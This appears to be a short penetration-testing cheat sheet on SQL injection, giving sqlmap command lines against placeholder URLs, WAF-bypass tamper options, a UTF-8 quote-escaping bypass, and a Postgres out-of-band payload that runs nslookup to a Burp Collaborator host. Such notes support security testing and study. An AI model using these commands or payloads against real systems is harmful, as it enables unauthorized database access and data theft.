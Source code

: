 +++
title = 'SQLi'
+++

## sqlmap

- https://github.com/sqlmapproject/sqlmap

```
# request in txt
sqlmap -r search-test.txt -p parameter

# post
sqlmap -o -u "http://example.com/index.php?id=1" --data="username=admin&password=pass&submit=+Login+" --method=POST
# get
sqlmap -u "http://example.com/index.php?id=1"

# with point of injection (*)
sqlmap -u "http://example.com/index.php?id=1*-133&debug=true"

# risk
sqlmap -u "http://example.com/index.php?id=1" --risk=3 --level=5

# headers
sqlmap --headers="HEADER"
```

## Temper

The ability to create payloads that can bypass waf

- https://github.com/m4ll0k/Atlas

Example:
```
--tamper="between,randomcase"
```

## Tricks

Sometimes sites append an extra (') character in injection. It is possible to bypass this behavior by abusing UTF-8. 
\xc2 asks for a follow up byte, the decoding of \xc2' (\xc2\x27) would result in a bypass.

## Blind

Postgres
```
copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
```

## Articles

| URL | 
| --- |
| https://www.binarytides.com/sqlmap-hacking-tutorial/ |
| https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html|
